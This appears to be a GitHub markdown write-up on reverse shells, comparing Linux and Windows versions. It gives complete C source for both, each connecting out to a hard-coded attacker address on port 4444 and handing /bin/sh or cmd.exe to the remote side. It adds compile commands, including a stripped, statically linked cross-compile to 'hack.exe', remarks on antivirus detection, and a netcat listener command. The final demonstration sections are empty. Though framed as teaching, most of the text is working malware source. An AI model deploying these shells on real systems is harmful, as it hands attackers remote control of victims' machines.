


# Reverse Shell Write-Up: Linux vs Windows

## 1. Linux Reverse Shell (C)

**Code:**

```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main()
{
    const char *attacker_ip = "192.168.37.37";
    struct sockaddr_in target_address;
    target_address.sin_family = AF_INET;
    target_address.sin_port = htons(4444);
    inet_aton(attacker_ip, &target_address.sin_addr);

    int socket_file_descriptor = socket(AF_INET, SOCK_STREAM, 0);
    connect(socket_file_descriptor, (struct sockaddr *)&target_address, sizeof(target_address));

    for (int index = 0; index < 3; index++)
        dup2(socket_file_descriptor, index);

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

**Explanation:**

| Component                | Purpose                                                                                                 |
| ------------------------ | ------------------------------------------------------------------------------------------------------- |
| `socket()`               | Creates a TCP socket for communication.                                                                 |
| `connect()`              | Connects to the attacker's IP and port. Blocking until the listener accepts.                            |
| `dup2()`                 | Redirects stdin (0), stdout (1), stderr (2) to the socket. Equivalent to Linux process I/O redirection. |
| `execve("/bin/sh", ...)` | Replaces current process with `/bin/sh`, giving the attacker remote shell access.                       |

**Behavior:**

* **Blocking:** `connect()` waits for listener; `/bin/sh` blocks on I/O until commands arrive.
* Entire process is replaced by the shell; the program itself terminates after `execve()`.

**Pros / Cons:**

* Simple, minimal code.
* Works on any Linux system without additional libraries.
* Detected easily by network monitoring if attacker IP/port is exposed.


**Compiling:**

```bash
gcc -o hack reverse-shell-linux.c
```


---

## 2. Windows Reverse Shell (C)

**Code:**

```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

WSADATA socketData;
SOCKET mainSocket;
struct sockaddr_in connectionAddress;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInfo;

int main(int argc, char *argv[])
{
    char *attackerIP = "192.168.37.37";
    short attackerPort = 4444;

    WSAStartup(MAKEWORD(2, 2), &socketData);
    mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    connectionAddress.sin_family = AF_INET;
    connectionAddress.sin_port = htons(attackerPort);
    connectionAddress.sin_addr.s_addr = inet_addr(attackerIP);

    WSAConnect(mainSocket, (SOCKADDR *)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);

    memset(&startupInfo, 0, sizeof(startupInfo));
    startupInfo.cb = sizeof(startupInfo);
    startupInfo.dwFlags = STARTF_USESTDHANDLES;
    startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE)mainSocket;

    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);

    exit(0);
}
```

**Explanation:**

| Component                                        | Purpose                                                                       |
| ------------------------------------------------ | ----------------------------------------------------------------------------- |
| `WSAStartup()`                                   | Initializes Windows Sockets API. Required before using Winsock functions.     |
| `WSASocket()`                                    | Creates a TCP socket (like Linux `socket()`).                                 |
| `WSAConnect()`                                   | Connects to the attacker's listener.                                          |
| `STARTUPINFO` + `hStdInput/hStdOutput/hStdError` | Redirects the child process I/O to the socket (like `dup2` in Linux).         |
| `CreateProcess("cmd.exe", ...)`                  | Launches a new shell (`cmd.exe`) that inherits the redirected socket handles. |
| `exit(0)`                                        | Terminates the stub; the shell continues running independently.               |

**Behavior:**

* The program **exits immediately** after spawning `cmd.exe`.
* The spawned shell handles all communication via the socket.
* Blocking occurs on `WSAConnect()` until the listener accepts.

**Pros / Cons:**

* Works on Windows using native APIs.
* Spawns an actual Windows shell.
* Heavily detected by Microsoft Defender/AV due to classic reverse shell behavior.

**Compiling:**

```bash
i686-w64-mingw32-g++ .\Reverse_shells\reverse-shell-windows.c -o hack.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

| Part                                       | Purpose                                                                             |
| ------------------------------------------ | ----------------------------------------------------------------------------------- |
| `i686-w64-mingw32-g++`                     | Cross-compiler: generates **32-bit Windows executables** from Linux.                |
| `.\Reverse_shells\reverse-shell-windows.c` | Source file to compile.                                                             |
| `-o hack.exe`                              | Output filename (`hack.exe`).                                                       |
| `-lws2_32`                                 | Link against **Windows Sockets library** (required for network functions).          |
| `-s`                                       | Strip debugging symbols to reduce binary size.                                      |
| `-ffunction-sections -fdata-sections`      | Put functions/data in separate sections for better optimization and size reduction. |
| `-Wno-write-strings`                       | Disable warnings about string literals being non-`const`.                           |
| `-fno-exceptions`                          | Disable C++ exceptions (smaller, simpler binary).                                   |
| `-fmerge-all-constants`                    | Merge duplicate constants to reduce size.                                           |
| `-static-libstdc++ -static-libgcc`         | Link **C++ runtime statically** so binary doesn’t depend on external DLLs.          |
| `-fpermissive`                             | Allow non-strict C++ code (relaxes some compiler errors).                           |


---

## 3. Key Differences: Linux vs Windows

| Feature           | Linux                                       | Windows                                                  |
| ----------------- | ------------------------------------------- | -------------------------------------------------------- |
| Socket API        | `sys/socket.h`, `connect()`                 | Winsock (`WSAStartup`, `WSASocket`, `WSAConnect`)        |
| Shell             | `/bin/sh`                                   | `cmd.exe`                                                |
| I/O Redirection   | `dup2(fd, 0/1/2)`                           | `STARTUPINFO.hStdInput/Output/Error` + `CreateProcess`   |
| Process Handling  | Current process replaced (`execve`)         | Child process spawned, stub exits                        |
| Blocking Behavior | `connect()` + shell I/O                     | `WSAConnect()` + shell I/O                               |
| Detection         | Can be monitored via network, simple static | Detected by AV/Defender due to known API + cmd.exe combo |

---

**Summary:**

* Both achieve a **remote shell back to the attacker**, but the **mechanism differs** due to OS APIs.
* Linux uses `dup2` + `execve` for in-place redirection.
* Windows must spawn a **new process** and redirect its handles via `STARTUPINFO`.
* Both are **blocking** until the remote listener connects and commands are issued.

---


# listener with netcat

now i will use kalilinux(wsl) to listen to the incomming trafic 

```bash
nc -nlvp 4444
```

| Option    | Meaning                                                                                                            |
| --------- | ------------------------------------------------------------------------------------------------------------------ |
| `-n`      | No DNS resolution. Netcat won’t try to resolve hostnames; it only uses IPs. Speeds up connection and avoids leaks. |
| `-l`      | Listen mode. Netcat acts as a server waiting for incoming connections instead of connecting out.                   |
| `-v`      | Verbose. Netcat prints extra info like “listening on port 4444” or connection details.                             |
| `-p 4444` | Port. Sets the local port to listen on (here, 4444).                                                               |


## For win:



## For linux:




